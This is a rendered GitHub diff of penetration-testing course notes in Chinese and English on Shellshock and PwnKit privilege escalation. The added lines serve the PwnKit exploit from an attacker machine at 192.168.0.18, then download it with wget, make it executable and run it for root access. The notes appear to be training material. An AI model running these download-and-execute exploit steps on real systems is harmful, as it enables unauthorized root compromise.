

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -145,6 +145,10 @@ SHELLSHOCK
     shell
     script /dev/null -qc /bin/bash
     利用PwnKit提權
+    python3 -m http.server 8888
+    wget http://192.168.0.18:8888/PwnKit32
+    chmod +x PwnKit32
+    ./PwnKit32
 [PwnKit](https://github.com/ly4k/PwnKit)
 ![image](https://github.com/user-attachments/assets/9242b59d-f2a8-4ee5-95d7-43a14b314eaf)
 ![image](https://github.com/user-attachments/assets/f5aadc76-536d-4003-b29f-13dc4ea1b0a9)
```
Also changed, not shown: other parts of Cpent/Day5.md (+1 -0 lines).
